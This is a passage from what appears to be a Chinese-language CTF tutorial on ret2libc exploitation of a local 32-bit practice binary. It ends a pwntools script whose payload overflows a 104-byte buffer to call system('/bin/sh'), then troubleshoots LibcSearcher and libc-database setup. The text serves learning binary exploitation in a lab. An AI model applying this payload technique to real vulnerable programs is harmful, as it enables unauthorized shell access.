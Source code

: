 ```plain

#缓冲区少了 8 个字节，因为我们虽然是返回到了 main 函数，但是在 main 函数之前有一些初始化的函数，这些函数改变了栈，第二次调用 main 函数的时候缺少了栈初始化的过程，如果我们返回到_start 那么偏移就是一样的。
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)


p.interactive()
```

如果出现下面这种情况：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc31.py
[+] Starting local process './ret2libc3': pid 76172
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
No matched libc, please add more libc or try others
[*] Stopped process './ret2libc3' (pid 76172)
```

解决办法：

libc 数据库中没有对应的版本，下载[https://github.com/niklasb/libc-database，然后替换libc-database目录](https://github.com/niklasb/libc-database%EF%BC%8C%E7%84%B6%E5%90%8E%E6%9B%BF%E6%8D%A2libc-database%E7%9B%AE%E5%BD%95)

根据命令下载不同发行版本的 libc

```plain
$ ./get  # List categories
$ ./get ubuntu debian  # Download Ubuntu's and Debian's libc, old default behavior
$ ./get all  # Download all categories. Can take a while!
```

如果遇到这种情况：

```plain
root@qufeng-virtual-machine:/LibcSearcher/libc-database# ./get ubuntu
Will download or update for:
Requirements for download or update 'ubuntu' are not met. Please, refer to README.md for installation instructions
```

就查看 README 中的 Requirements，我是缺少了这个 zstd，安装好所有的即可

```plain
qufeng@qufeng-virtual-machine:/$ zstd
The program 'zstd' is currently not installed. You can install it by typing:
sudo apt install zstd
```

继续运行脚本，可能会找到多个脚本，手动选择一个，接着可能出现这种情况：
